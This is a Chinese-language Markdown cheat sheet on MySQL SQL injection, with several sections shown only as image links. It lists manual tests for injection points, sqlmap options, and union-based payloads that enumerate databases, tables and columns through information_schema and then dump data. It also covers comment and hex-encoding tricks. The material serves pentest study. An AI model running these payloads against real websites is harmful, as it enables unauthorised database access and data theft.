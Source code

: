 # MySQL注入
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 环境需求
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;MySQL数据库(version>=5.0)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 注入函数
![](/assets/49A439B31D3656FE1266C2809C616748.png)
![](/assets/E33220D060B048EAA19A59928F1FFA64.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 样例代码
![](/assets/83A2168FAA2CDFB87AF8716FC9F92A3B.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 关于内置库
![](/assets/618D4E32E84852266ED812F5595453FF.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x05 注入流程
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1.注入点识别:
```
    手工识别:  '   
              [数字型] and 1=1 / and 1=2    
              [字符型] and '1'='1 / and '1'='2
              [易过滤] and 1 like 1 / and 1 like 2
                      or 1=1 / or 1=2,注意参数要提前设置成错误参数
                  
    工具识别:  sqlmap -m filename(filename中保留检测目标)
              sqlmap -r filename(filename中为网站请求数据)
              sqlmap --crawl(sqlmap对目标网站进行爬去，然后依次测试)
              Burpsuite+SQLMap
   
    其他技巧:  出现注入点也可能在登录、搜索、留言一切产生数据交互的地方
              在参数后键入 * ,表明只对这个参数进行测试(BP中)
                
```
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2.信息收集:
![](/assets/B37DE04BFA39F1E89C6D4C24BE781008.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3.内容获取: 注入语句末尾添加 %23 或者 --+ 进行注释
```sql 
   字段长度: order by
   显示字段: union select null,null,强制报错显示字段
   查库信息: union select database(),version()
   查库: union select group_concat(schema_name) from information_schema.schemata,null
   查表: union select group_concat(table_name) from information_schema.tables where table_schema=database()
   查列: union select group_concat(column_name) from information_schema.columns where table_name='表名'(注1)
   查数据: union select group_concat(null) from 库名.表名
   
   注意: 1.表名加引号，推荐改为十六进制
```








